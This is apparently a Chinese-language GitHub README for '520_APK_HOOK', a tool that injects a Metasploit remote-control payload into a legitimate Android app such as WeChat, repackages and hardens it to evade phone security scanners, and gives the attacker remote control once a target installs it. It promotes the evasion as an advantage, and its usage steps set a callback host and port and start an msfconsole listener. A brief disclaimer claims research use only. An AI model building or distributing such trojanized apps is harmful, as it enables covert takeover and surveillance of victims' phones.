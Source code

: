 # 520_APK_HOOK

## bug修复

* 修复模式2权限未注入的bug。此bug会导致app无法启动

## 介绍


* 将msf生成的payload，注入到一个正常的apk文件中，重新打包后进行加固，bypass手机安全管家的检测。

* 项目地址: [https://github.com/cleverbao/520apkhook](https://github.com/cleverbao/520apkhook)

* 作者: BaoGuo


## 优点

* 相比于原始的msf远控，此版本app在进行远控时，被注入的app可以正常运行，原始msf生成的app程序，只在桌面上有一个图标，点击后没有任何app界面。

* 注入后的app在安装时，手机管家不会有任何安全提示，原始msf生成的app程序，安装时手机管家会有安全警示。

* 被注入后的app可以正常运行，msf正常在线，继承app的权限。


## 重点说明

* 本项目仅用于安全研究, 禁止利用脚本进行攻击, 使用本脚本产生的一切问题和本人无关.

* 部分被加固过的app无法进行注入，已测试网易系列💔，360系列💔，腾讯系列❤️，其他的请自行测试。

## 项目依赖

* 本项目参考以下项目

* [apk-steady](https://gitee.com/openjk/apk-steady)

* [apk-jiagu](https://gitee.com/openjk/apk-jiagu)

* [APK Infector](https://github.com/PushpenderIndia/apkinfector)

## 使用


1. 使安装python3, Java环境.

2. 使用python3生成apk文件, 需要指定msf远控链接的IP和端口.

```sh

╭─ ~/520apkhook                                                                                    х INT Py py3 16:36:11
╰─❯ python main.py --lhost 192.168.0.106 --lport 1433  -n ../微信_7.0.22.apk

```

[![asciicast](https://asciinema.org/a/449061.svg)](https://asciinema.org/a/449061)

3. 使用msfconsole加载handler.rc进行服务端监听

```sh

╭─ ~/520apkhook                                                                                    х INT Py py3 16:36:11
╰─❯ msfconsole -r WorkDir/handler.rc

```

[![asciicast](https://asciinema.org/a/449064.svg)](https://asciinema.org/a/449064)

4. 将生成的apk文件在安卓手机进行安装, 即可完成对目标的控制

![安装App](./images/InstallApp.webp)

5. 成功后, 可以在msf中进行远程控制

